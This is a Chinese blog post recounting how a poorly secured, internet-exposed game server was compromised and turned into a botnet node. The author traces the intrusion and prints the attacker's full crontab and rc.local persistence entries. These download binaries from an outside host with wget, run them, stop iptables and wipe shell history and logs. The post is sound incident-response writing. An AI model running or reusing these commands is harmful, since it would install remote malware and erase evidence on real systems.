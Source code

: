 ```yaml
---
layout: post
title: "记一次服务器被黑了"
description: ""
category: c
tags: []
---
```

{% include JB/setup %}

有一个本地服，部署着游戏。我们称作‘本地服’。由于是本地，大家都是自己人，服务器安全防护的都关闭了。 密码123，iptables -F，selinux干掉，chmod都是777.   
呵呵，有一天老板突发奇想说想在家玩玩游戏，网管哥就在路由那里绑定，把服务器暴露出去了。。。 一直没留意。    
	
直到一天，全公司网络都非常慢，排查一下，发现199发包很猛，ssh登陆失败，密码被篡改了。才想起。。。。哦！服务器被黑了。


先把网线，让公司网络恢复先。进去机房，用单用户模式进去把服务器密码改回来。

上面没什么有价值的东西，不太造成损失。 （上面都是编译好了的端，没源码）于是乎开始服务器上寻找蛛丝马迹。     

思路一：先找出入侵者做过什么   
看看bash操作日志 `root@server199:~# cat -n .bash_history`  ，可惜被清空了。   

思路二：入侵者会留下什么  
我先想起定时任务，crontab -l  ,出现了一堆注释。我原本游戏是有定时任务的，被填入这么多注释，想必也是把操作隐藏在茫茫多的注释里面。
我把操作都找了出来。   
	
	*/101 * * * * cd /etc; wget http://www.dgnfd564sdf.com:8080/sksapd
	*/101 * * * * cd /etc; wget http://www.dgnfd564sdf.com:8080/skysapd 
	*/1 * * * * killall -9 new6
	*/1 * * * * killall -9 new4
	*/1 * * * * cd /etc; rm -rf dir sksapd.*
	*/1 * * * * cd /etc; rm -rf dir skysapd.*
	*/99 * * * * cd /root > .bash_history
	*/1 * * * * chmod 7777 /etc/sksapd
	*/1 * * * * chmod 7777 /etc/skysapd
	*/99 * * * * killall -9 cupsdd
	*/1 * * * * killall -9 node24
	*/98 * * * * killall -9 ksapd
	*/96 * * * * killall -9 kysapd
	*/96 * * * * killall -9 atdd
	*/1 * * * * chmod 7777 /etc/cupsdd
	*/1 * * * * chmod 7777 /etc/ksapd
	*/1 * * * * chmod 7777 /etc/kysapd
	*/96 * * * * killall -9 sksapd
	*/96 * * * * killall -9 skysapd
	*/1 * * * * chmod 7777 /etc/atdd
	*/1 * * * * /etc/init.d/iptables stop
	*/1 * * * * nohup /etc/cupsdd > /dev/null 2>&1&
	*/99 * * * * cd /etc;./ksapd
	*/97 * * * * cd /etc;./kysapd
	*/97 * * * * cd /etc;./atdd
	*/69 * * * * cd /etc; wget http://www.dgnfd564sdf.com:8080/cupsdd 
	*/97 * * * * cd /etc;./sksapd
	*/97 * * * * cd /etc;./skysapd
	*/79 * * * * cd /etc; wget http://www.dgnfd564sdf.com:8080/ksapd
	*/89 * * * * cd /etc; wget http://www.dgnfd564sdf.com:8080/kysapd
	*/99 * * * * cd /etc; wget http://www.dgnfd564sdf.com:8080/atdd
	*/1 * * * * cd /etc; rm -rf dir cupsdd.*
	*/1 * * * * cd /etc; rm -rf dir kysapd.*
	*/1 * * * * cd /etc; rm -rf dir ksapd.*
	*/1 * * * * cd /etc; rm -rf dir atdd.*
	*/1 * * * * killall -9 freeBSD
	*/1 * * * * history -c
	*/15 * * * * cd /var/log > secure


好吧，很明显的了，是被人做肉鸡了，定时下个skysapd什么的，执行。

同时在/etc/rc.local里没发现

	nohup /etc/cupsdd > /dev/null 2>&1&
	cd /etc;./ksapd
	cd /etc;./kysapd
	cd /etc;./atdd
	nohup /etc/cupsdd > /dev/null 2>&1&
	cd /etc;./ksapd
	cd /etc;./kysapd
	cd /etc;./atdd
	nohup /etc/cupsdd > /dev/null 2>&1&
	cd /etc;./ksapd
	cd /etc;./kysapd
	cd /etc;./atdd
	nohup /etc/cupsdd > /dev/null 2>&1&
	cd /etc;./ksapd
	cd /etc;./kysapd
	cd /etc;./atdd

把东西都干掉，撤销外网。以前就继续用了。后来用`last`命令看了一下，有两个登陆ip。把脚本的域名也查了一下。   
结果如下，便没有继续追寻下去了。   

您的IP查询为：122.224.34.42   
电脑IP地址查询详细位置：浙江省绍兴市 电信  


您的IP查询为：1.82.228.218  
电脑IP地址查询详细位置：陕西省西安市  


您的IP查询为：60.180.156.102  
电脑IP地址查询详细位置：浙江省温州市 (龙湾区)电信  
-EOF